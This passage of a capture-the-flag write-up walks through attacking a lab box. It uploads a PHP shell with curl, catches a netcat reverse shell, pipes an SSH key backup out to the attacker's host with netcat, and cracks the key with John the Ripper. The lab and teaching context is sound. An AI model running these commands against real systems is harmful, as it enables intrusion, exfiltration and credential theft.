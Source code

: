 and then used the curl command, being careful to add the authentication header like so:
```bash
curl -F "file=@lmao.php" -F "plupload=1" -F "name=lmao.php" -u "developers:HTPASS_PASSOWRD" "http://broadcast.vulnnet.thm/actions/photo_uploader.php"
```
We're gonna get a response like this:
```json
{"success":"yes","file_name":"1616102314ebf8b6","extension":"php","file_directory":"2021\/03\/18"}
```
I opened a listener with netcat:
```bash
rlwrap nc -vlp 8080
```
I headed at `http://broadcast.vulnnet.thm/files/`, went into the `photos` folder and follow the path specified in the `file_directory` variable in the json response.
We're gonna have our file with the same name as the value of `file_name`. 
Clicking on it we get a reverse shell.

## Privilege escalation - Lateral Movement

First I stabilized my shell by issuing the following commands:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

then I saw that in `/var/backups/` we have `ssh-backup.tar.gz`
`-rw-rw-r--  1 server-management server-management    1484 Jan 24 14:08 ssh-backup.tar.gz`

I moved this file to my PC by opening a netcat listener in my machine
```bash
nc -lvp 8000 > "ssh-backup.tar.gz"
```

and send the command to my machine by issuing another command with netcat in the remote server:
```bash
cat ssh-backup.tar.gz | nc LHOST 8000
```

I extracted the archive by using tar:
```bash
tar xvf ssh-backup.tar.gz
```
> NOTE: I always forget which argument pass to `tar` to extract the archive. Just thinking about e**X**tract **V**erbose **F**file

and we have an `id_rsa`. Knowing that this file is owned by `server-management`, I supposed that it belongs to this user.
But we have to crack it first:
```bash
/usr/share/john/ssh2john.py id_rsa > crackme
john -w=/usr/share/wordlists/rockyou.txt crackme
```

and after finding the password, we can use it to login via ssh:

```bash
ssh -i id_rsa server-management@vulnnet.thm
```
